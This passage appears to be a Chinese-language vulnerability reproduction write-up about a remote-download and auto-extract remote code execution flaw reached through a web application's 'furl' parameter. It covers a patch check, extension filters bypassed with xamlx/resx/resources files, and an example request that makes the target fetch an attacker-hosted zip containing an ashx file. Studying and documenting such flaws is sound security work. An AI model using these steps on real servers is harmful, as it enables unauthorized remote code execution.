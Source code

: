 ![](assets/1706859049-9a62140a1558de81bc3aab669477a267.png)

## 一、远程下载自解压的漏洞新后缀复现思路以及代码分析漏洞流程-

### 0.1、查看修复情况

v8.6.1--没有开启 furl-base64 加密 - 复现--失败-cache/office/下连 txt 都不能访问，cache/其他目录的话既可以用 xamlx 重新造成`RCE`

可以看到新版就把 furl 漏洞修复了

![](assets/1706859049-2d37ee1f79a8dbae339dd10afec5f402.png)

### 0.2、复现--xamlx/resx/resources 后缀成功--以及过滤后缀-aspx/asmx/asp/ashx/soap/

1、打包下载

需要提前准备 2 个文件，一个 ashx 和一个 txt 文件

将这两个文件打包为 2.zip，然后起一个 http 服务提供给网站远程下载

然后访问？furl=[http://你的公网服务器/2.zip](http://xn--6qqt3cr0as7hx7zwgvw8n/2.zip)

```php
http://localhost:8088/?furl=http://10.10.11.1:88/zip.zip
```
